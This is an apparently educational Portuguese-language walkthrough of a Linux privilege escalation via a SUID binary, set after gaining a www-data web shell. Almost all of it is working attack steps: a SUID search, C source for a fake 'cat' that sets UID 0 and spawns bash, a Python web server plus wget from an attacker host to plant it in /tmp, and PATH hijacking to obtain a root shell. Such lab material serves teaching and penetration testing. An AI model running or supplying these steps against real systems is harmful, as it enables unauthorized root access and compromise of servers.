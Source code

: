 ## Escalação de privilégios via binário SUID

Considere um cenário de pós-exploração web após obter uma shell do usuário www-data (sem privilégios).

É necessário buscar por binários SUID
```
find / -perm -4000 2>&-
```
![image](https://user-images.githubusercontent.com/76706456/180345179-c5a19806-54b8-48e8-a2fb-fb42267b07be.png)

Observe na imagem acima que há um binário chamado "script" em /arquivos

Ao executar, ele utiliza o cat para tentar abrir um arquivo inexistente no sistema
![image](https://user-images.githubusercontent.com/76706456/180345380-408e3c33-3ac8-43fb-88cd-7302a2d35706.png)

Neste caso, como o binário "script" é executado como root, ao executar o cat ele o faz com as mesmas permissões. Usaremos essa peculiaridade para escalar nosso privilégio.

Em sua máquina, crie o arquivo cat.c
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void main()
{
  setuid(0);
  setgid(0);
  system("/bin/bash");
}
```
Compile na mesma arquitetura do servidor alvo (**-m32** para sistemas 32 bits)
```
gcc -m32 cat.c -o cat
```
Será gerado um binário chamado **cat**, que chamaremos de cat "falso", uma vez que ele será executado no lugar do original.

Transfira o cat "falso" para o servidor, podemos iniciar um web server na nossa máquina e baixar no servidor alvo (lembre-se de realizar o wget em um diretório que o usuário www-data possua permissões de escrita)
```
python3 -m http.server 80
```
Faremos o download no diretório /tmp
```
cd /tmp;wget http://192.168.0.2/cat
```
Dê permissões ao cat "falso"
```
chmod 755 cat
```
Vamos ver qual é o PATH atual (diretório em que se encontram os binários do sistema)
```
echo $PATH
```
Vamos até o diretório em que se encontra o binário SUID
```
cd /arquivos
```
Vamos redefinir o caminho do PATH, apontando para o diretório em que foi realizado o wget do nosso cat "falso"
```
PATH="/tmp:/tmp:/tmp"
```
Agora execute o binário e observe que será obtido root (isso ocorre pois o binário SUID está executando como root o nosso cat "falso", que por sua vez spawna um novo bash)
```
./script
```
Redefina o PATH conforme visto anteriormente para conseguirmos utilizar todos os binários do sistema
```
PATH="/usr/local/bin:/usr/bin:/bin"
```

Observe que foi obtido acesso root:

![image](https://user-images.githubusercontent.com/76706456/180348567-8bd50b1a-b5fe-47d4-81a4-f45aecc46623.png)
